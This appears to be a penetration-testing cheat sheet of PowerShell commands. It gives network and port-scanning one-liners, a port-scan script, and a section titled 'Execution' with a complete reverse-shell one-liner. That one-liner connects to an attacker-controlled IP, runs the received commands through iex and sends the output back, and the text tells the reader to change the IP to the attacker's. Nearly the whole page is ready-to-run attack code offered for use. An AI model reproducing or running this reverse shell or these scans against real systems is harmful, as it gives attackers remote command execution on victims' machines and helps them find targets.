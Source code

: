 #### Single Port Multiple Hosts
`foreach ($ip in 1..20) {Test-NetConnection -Port 80 -InformationLevel "Detailed" 192.168.1.$ip}`

#### Multiple Hosts Multiple Ports
`1..20 | % { $a = $_; 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.$a",$_)) "Port $_ is open!"} 2>$null}`

### Simple Port Scanning Script

Needs testing

```
$port = 445  
$network =  10.63.50
$range = 1..254
$ErrorActionPreference= 'silentlycontinue'
$(Foreach ($add in $range)  
{ $ip = "{0}.{1}" –F $network,$add  
Write-Progress "Scanning Network" $ip -PercentComplete (($add/$range.Count)*100)  
If(Test-Connection –BufferSize 32 –Count 1 –quiet –ComputerName $ip)  
{ $socket = new-object System.Net.Sockets.TcpClient($ip, $port)  
If($socket.Connected) { "$ip port $port open"
$socket.Close() }  
else { "$ip port $port not open" }  
}  
}) | Out-File .\portscan.csv
```

### Advanced Port Scanning Script

Link https://raw.githubusercontent.com/BornToBeRoot/PowerShell_IPv4PortScanner/main/Scripts/IPv4PortScan.ps1

https://github.com/BornToBeRoot/PowerShell_IPv4PortScanner

*Note - Yes, Nmap is better. However, you may find yourself in a situation where you cannot install nmap or anything else.*
# Execution

## Reverse Shells
### Reverse Shell - One-Liners

Modify the IP address and the port to the attacker's.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.46.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
